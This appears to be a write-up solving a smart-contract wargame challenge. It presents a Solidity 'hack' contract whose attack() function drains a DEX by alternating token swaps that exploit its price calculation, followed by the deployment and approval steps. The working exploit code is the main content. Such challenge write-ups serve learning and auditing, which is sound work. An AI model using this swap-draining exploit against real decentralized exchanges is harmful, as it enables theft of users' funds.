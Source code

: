 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function getSwapPrice(address from, address to, uint256 amount) external view returns (uint256);
    function swap(address from, address to, uint256 amount) external;
}

interface IERC20 {
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}

contract hack {
    IDex private immutable dex;
    IERC20 private immutable token1;
    IERC20 private immutable token2;

    constructor(IDex target) {
        dex = target;
        token1 = IERC20(dex.token1());
        token2 = IERC20(dex.token2());

    }

    function attack () external {
        token1.transferFrom(msg.sender, address(this), 10);
        token2.transferFrom(msg.sender, address(this), 10);

        token1.approve(address(dex), type(uint).max);
        token2.approve(address(dex), type(uint).max);
        
        dex.swap(address(token1), address(token2), 10);
        dex.swap(address(token2), address(token1), 20);
        dex.swap(address(token1), address(token2), 24);
        dex.swap(address(token2), address(token1), 30);
        dex.swap(address(token1), address(token2), 41);
        dex.swap(address(token2), address(token1), 45);
        }

}
```
To complete this challenge, we need to deploy the hack contract and then approve it to spend tokens on behalf of us. To do so, we obtain the address of token1 and token2 by deploying the IDex interface at the instance address and getting the values of variables `token1` and `token2`. Then, we deploy the IERC20 interface at token1 and token2 address. Then, we can use the `approve()` method to approve the hack contract to spend some tokens (I approved for 100 tokens) on behalf of us. Notice that I have called approve methods inside the hack contract as well. That is so that the dex contract can spend tokens on our behalf during the swap.

